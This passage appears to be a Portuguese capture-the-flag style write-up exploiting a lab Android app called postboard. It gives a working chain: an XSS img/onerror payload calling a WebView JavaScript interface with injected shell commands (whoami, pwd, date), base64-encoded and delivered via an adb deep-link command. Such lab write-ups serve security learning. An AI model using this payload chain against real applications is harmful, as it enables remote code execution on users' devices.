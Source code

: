 ## Exploit

Primeiro, vamos abusar da primeira vulnerabilidade identificada para conseguir executar javascript na aplicação.
Uma vez que ao carregar a imagem que não existe o `onerrror` entra em ação e executa o javascript chamando a função `postCowsayMessage`,
passando uma mensagem, e três comandos padrões de sistemas baseados em unix.

Utilizei o seguinte payload:

```sh
echo "<img src=\"x\" \
onerror=\"WebAppInterface.postCowsayMessage('Moooo;whoami;pwd;date') \
\">"|base64
```
O resultado em base64 foi o seguinte: `PGltZyBzcmM9IngiIG9uZXJyb3I9IldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgnTW9vb287d2hvYW1pO3B3ZDtkYXRlJykgIj4K`

<br>

O comando abaixo envia o meu payload através de deep link para aplicação que irá interpretar meu código malicioso.

```sh
adb shell am start -a android.intent.action.VIEW \ 
-n com.mobilehackinglab.postboard/.MainActivity -d \ 
"postboard://postmessage/PGltZyBzcmM9IngiIG9uZXJyb3I9IldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgnTW9vb287d2hvYW1pO3B3ZDtkYXRlJykgIj4K"
```
Pronto agora temos execução remota de código através de uma falha na aplicação envolvendo webview, javascript sua interface.
<p align="center">
<img src="/assets/img/MHL_postboard_8.png" width="400" height="400"/>
</p>
<br>
